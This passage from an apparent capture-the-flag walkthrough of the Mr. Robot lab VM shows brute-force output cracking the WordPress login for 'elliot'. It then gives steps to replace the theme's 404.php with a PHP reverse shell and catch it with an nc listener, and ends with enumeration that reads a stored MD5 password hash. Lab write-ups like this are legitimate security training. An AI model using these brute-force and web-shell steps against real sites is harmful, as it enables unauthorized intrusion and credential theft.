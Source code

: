 ```console
  Brute Forcing 'elliot' Time: 00:01:07 <================================================================                                                                    > (5627 / 11452) 49.13%  ETA: 00:01:10
  +----+--------+------+-----------+
  | Id | Login  | Name | Password  |
  +----+--------+------+-----------+
  |    | elliot |      | **ER28-0652** |
  +----+--------+------+-----------+

[+] Finished: Fri Jan 20 16:43:55 2017
[+] Requests Done: 5679
[+] Memory used: 18.219 MB
[+] Elapsed time: 00:01:08
```


We found the password! It's `ER28-0652`.

---

## 3\. Getting a shell

`elliot` has administrative access on WP, which means we can easily change `404.php `file with a [reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Go to `Appearance `-> `Editor` and swap the `404.php` code with your modified revsh. Make sure you change the IP and PORT in the php file. Then start a listener and hit a random page like http://192.168.1.72/idontexist.

```console
root@kali:~/Desktop# nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.1.73] from (UNKNOWN) [192.168.1.72] 41611
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 22:01:33 up  1:45,  0 users,  load average: 0.00, 0.04, 0.21
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$
```

After little enumeration I found the following:

```
daemon@linux:/$ cd /home
cd /home
daemon@linux:/home$ ls -al
ls -al
total 12
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls -al
ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$
```